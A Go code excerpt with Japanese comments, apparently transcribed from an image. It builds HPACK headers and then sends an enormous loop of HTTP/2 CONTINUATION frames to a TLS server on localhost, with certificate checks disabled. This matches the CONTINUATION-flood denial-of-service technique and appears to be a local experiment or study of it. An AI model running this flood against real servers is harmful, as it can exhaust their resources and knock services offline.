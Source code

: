 ``` go
	henc.WriteField(hpack.HeaderField{Name: dummyValue, Value: dummyKey}) // 逆にしたのも送る。
	continuationHeaders := hbuf.Bytes()

	N := 1_000_000_000_000
	for i := 0; i < N; i++ {
		if err := framer.WriteContinuation(1, i == N-1, continuationHeaders); err != nil {
			log.Fatal("write headers error: ", err)
		}
	}

	frames := make([]http2.Frame, 0)
	for {
		fmt.Println("----- for -----")
		frame, err := framer.ReadFrame()
		if err != nil {
			log.Fatal("read frame error: ", err)
		}
		frames = append(frames, frame)

		if frame.Header().Flags.Has(http2.FlagHeadersEndStream) {
			fmt.Printf("head ended-----: %v\n", frame)
		}

		if frame.Header().Type == http2.FrameData && frame.Header().Flags.Has(http2.FlagDataEndStream) {
			// end of stream !!!
			break
		}
	}

	for _, frame := range frames {
		switch frame := frame.(type) {
		case *http2.DataFrame:
			log.Printf("data frame: %s\n", frame.Data())
			data := frame.Data()
			fmt.Printf("data: %v\n", data)
			fmt.Printf("string(data): %v\n", string(data))
		case *http2.HeadersFrame:
			log.Printf("headers frame: %s\n", frame.Header())
		default:
			log.Printf("frame: %v\n", frame.Header())
		}
	}
}

func main() {
	// TLS 接続の設定
	tlsConfig := &tls.Config{
		// 実運用では危険。
		InsecureSkipVerify: true,
		// HTTP/2 を明示的に指定
		NextProtos: []string{"h2"},
	}

	// TLS 接続を確立
	conn, err := tls.Dial("tcp", "localhost:8080", tlsConfig)
	if err != nil {
		panic(err)
	}
	defer conn.Close()

	customHttp2Call(conn)
}
```